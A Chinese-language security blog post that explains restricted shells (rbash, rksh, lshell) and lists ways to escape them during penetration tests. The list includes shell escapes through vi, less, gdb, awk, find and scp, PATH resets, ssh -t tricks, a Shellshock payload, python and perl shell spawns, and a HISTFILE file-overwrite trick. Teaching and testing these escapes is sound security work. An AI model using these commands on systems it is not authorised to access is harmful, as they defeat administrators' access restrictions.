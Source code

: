 ```yaml
---
title: 摆脱受限的shell
layout: post
tags:
  - sec
  - skills
  - rbash
  - information
  - shell
category: 
  - hack
  - skills
comments: true
share: true
---
```


在渗透过程中，会遇到有些环境中的shell是受限制的，这些shell环境叫[restricted shell](https://en.wikipedia.org/wiki/Restricted_shell)

<!--more-->

## 受限shell

受限shell环境的命令是有限的，很多不能运行，比如：

- `cd`切换目录
- 设置或者是取消环境变量设置
- 包含`/`的命令
- 不能使用`>`、`>>`、`>|`、`>&`、`>&`重定向操作符
- 不能使用内建命令

为什么会有受限的shell？

受限的shell是为了增加系统的安全性，极大减少攻击性，限制对系统命令的使用，比如router、磁盘管理、网络管理工具的命令。甚至不能使用管理员功能。

受限shell类型大概有：

- rbash
- rsh
- rksh
- Python(lshell)

## 打破受限shell

**了解基本情况：**

尽量找出自己所处环境是什么样子：

- 运行`env`查看环境变量
- 运行`echo $PATH`查找路径设置
- 运行`echo $SHELL`或者`echo $0`查看运行的shell环境
- 查看基本的Unix命令，比如ls,pwd,cd ..,env,set,export,vi,cp,mv

**shell变量和路径设置：**

- 如果`/`允许使用，直接运行`/bin/sh`
- 如果可以进行路径设置、shell变量设置，就可以运行：
  - `export PATH=/bin:/usr/bin:$PATH`
  - `export SHELL=/bin/sh`
- 如果可以复制文件到存在的路径，就可以运行`cp /bin/sh /some/dir/from/PATH; sh`


**深入扩展信息：**

仔细研究可以使用的所有命令参数和附加信息也很有帮助。

有一些系统命令常常可以绕过限制：

- ftp->`!/bin/sh`
- gdb->`!/bin/sh`
- more/less/man->`!/bin/sh`
- vi/vim->`:!/bin/sh`
- scp -S `tmp/getMeOut.sh x y`
- awk 'BEGIN {system('/bin/sh')}'
- find / -name someName -exec `/bin/sh \;`

**逃脱限制：**

- 在远程shell连接加载完成之前执行系统命令
  - `ssh test@IP -t '/bin/sh'`
- 在远程shell开始的时候，不加载限制配置文件
  - `ssh test@IP -t "bash --noprofile"`
- 尝试破壳漏洞
  - `ssh test@IP -t "() { :; }; /bin/bash"` 


**更加深入：**

- 使用`tee`命令
  - echo "your evil code" | tee script.sh
- 通过脚本语言调用shell
  - `python -c 'import os; os.system("/bin/bash")'` 
  - perl -e 'exec "/bin/sh";'
- 历史文件技巧
  - 将一个想要重写的文件中设置HISTFILE变量
  - 将HISTFILE变量从0到100逐渐递增
  - 执行文件中每行写入的内容
  - 登出并重新登陆。这样就将所想写入的内容指向了HISTFILE文件(原文件权限保持不变)

## Refer

- http://pentestmonkey.net/blog/rbash-scp
- https://pen-testing.sans.org/blog/pen-testing/2012/06/06/escaping-restricted-linux-shells
